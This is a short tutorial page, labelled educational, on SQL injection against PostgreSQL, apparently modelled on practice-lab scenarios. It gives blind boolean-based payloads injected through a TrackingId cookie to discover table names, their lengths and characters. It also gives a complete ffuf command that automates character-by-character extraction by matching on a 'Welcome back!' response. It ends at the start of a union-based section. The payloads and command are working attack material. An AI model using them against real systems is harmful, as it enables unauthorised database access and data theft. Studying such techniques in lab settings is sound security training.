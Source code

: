 <h1>SQL Injection Exploitation Techniques - FOR EDUCATIONAL PURPOSES ONLY</h1>


<h1>Blind Boolean-Based SQL injection with conditional responses</h1>

<mark>Scenario</mark>: The Server uses a tracking cookie to determine if it should display "Welcome back!" to the user. The server uses the user's tracking cookie in a SQL Query, and if any rows are returned
then the server displays a "Welcome back!" message on the page. The tracking cookie "TrackingId=" is vulnerable to Blind, Boolean-Based SQL Injection. Database = Postgresql

<h2>Finding A table_name</h2>

<h3>Payload</h3>

Cookie: tXX2fVoTYZwsDnHO'+and+(select+substring(table_name,1,1)+from+information_schema.tables+limit+1)='FUZZ'--

<mark>False Condition</mark>

<img width="1907" height="701" alt="blind-boolean-find-tableName-falseCondition" src="https://github.com/user-attachments/assets/79bc8a28-0050-4eb9-b379-96c3d623b4ca" />

<mark>True Condition

<img width="1914" height="699" alt="blind-boolean-find-tableName-trueCondition" src="https://github.com/user-attachments/assets/f42ed835-3233-457d-810c-0bd44c370b8e" />

<h2>Finding Length Of table_name</h2>

<h3>Payload</h3>

Cookie: TrackingId=A6Of9fkbCW83W07V'+and+(select+length(table_name)+from+information_schema.tables+limit+1)=5--

<mark>False Condition</mark>

<img width="1911" height="700" alt="blind-boolean-find-length-of-tableName-falseCondition" src="https://github.com/user-attachments/assets/1144f284-8bb2-4432-9aa6-12ca36517912" />

<mark>True Condition</mark>

<img width="1910" height="696" alt="blind-boolean-find-length-of-tableName-trueCondition" src="https://github.com/user-attachments/assets/fb500407-a40f-474d-8a5e-1e53d6b059f1" />


<h3>FFUF Payload To Find table_name</h3>

Now that we have the length of the table_name, we can use FFUF with Multiple Variables to find the table_name.

Cookie: TrackingId=tXX2fVoTYZwsDnHO'+and+(select+substring(table_name,NUMBERZ,1)+from+information_schema.tables+limit+1)='CHARACTERZ'--

ffuf -u 'https://example.com' -H "Cookie: tXX2fVoTYZwsDnHO'+and+(select+substring(table_name,NUMBERZ,1)+from+information_schema.tables+limit+1)='CHARACTERZ'--" -w numbers.txt:NUMBERZ -w characters.txt:CHARACTERZ -mr "Welcome back!"


<h1>Union-Based SQL Injection</h1>

<mark>Scenario</mark>: The server displays articles for users to read. The Server uses a category parameter as a filter to only display articles about specific topics. The category parameter is vulnerable to Union-Based SQL Injection. Database = Postgresql
